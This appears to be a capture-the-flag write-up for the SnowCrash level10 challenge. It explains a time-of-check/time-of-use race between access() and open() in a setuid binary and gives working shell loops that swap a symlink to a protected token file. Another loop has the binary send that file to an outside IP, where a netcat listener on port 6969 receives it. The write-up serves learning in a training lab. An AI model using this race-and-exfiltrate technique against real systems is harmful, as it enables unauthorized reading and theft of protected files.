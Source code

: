 # Research 

```bash
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token
cat: token: Permission denied
level10@SnowCrash:~$ ./level10
./level10 file host
	sends file to host if you have access to it
```
Let's try: 
```bash
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
```
Let's do a symlink on token to see if it failed because of `token` in the file name:

```bash
level10@SnowCrash:~$ ln -s /home/user/level10/token /tmp/final
level10@SnowCrash:~$ ./level10 /tmp/final localhost
You don't have access to /tmp/final
```
`Level10` seems to check a user's rights, instead of a `strstr`on the name of file.</br>
Let's analyze a bit `level10`:

```bash
level10@SnowCrash:~$ strings level10
open
access
[...]
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
[...]
```

`level10` does an access() then an open(). This is a security hole. 

`Warning: Using access() to check if a user is authorized to, for example, open a file before actually doing so using open(2) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.`
https://linux.die.net/man/2/access

`level10` seems to send a file to a host on its port 6969, once it is sent, it opens it, reads it, and write it.

We don't have permission to `cat token`, so maybe we can send token with `level10` program on a host, listen to the host's `6969` port and read the token once `level10` write it.

How do we do we listen to a port?

`If you want to create a simple "test" server that can be set listen on a specified port and that you can interact with, take a look at the netcat command`
https://askubuntu.com/questions/301787/opening-a-port-for-listening

` [netcat] can open TCP connections, send UDP packets, listen on arbitrary TCP and UDP ports, do port scanning, and deal with both IPv4 and IPv6.`
`nc -l      Listen for an incoming connection rather than initiating a connection to a remote
             host.  The destination and port to listen on can be specified either as non-optional
             arguments, or with options -s and -p respectively.`
http://manpages.ubuntu.com/manpages/hirsute/en/man1/nc_openbsd.1.html

Theorical steps:
- Do a symlink again and again (in a loop)
- launch `level10` in a loop
- Hope that level10 will accept our file with access
- Then the symlink will occure
- Then level10 will open our modified file and write it on port 6969
- listen to the port to see what is happening and maybe catch the token

# Solution

- On a first terminal connected with ssh let's create the file that is going to be the symlink (`readlink -f token` to know the true path of token file):
```bash
while true; do rm -rf /tmp/final; touch /tmp/final; ln -sfn /home/user/level10/token /tmp/final; done
```
	- We need to suppress and create a new file each time or the symlink will apply on `tmp/final` and will not pass the `access()` check again.

- On a second ssh terminal let's execute level10 in a loop: 
```bash 
while true; do (./level10 /tmp/final 10.11.200.134); done
```

- On a third terminal, we can listen to the port 6969 with the netcat command: 
```bash
while true; do nc -l 6969 ;done
```
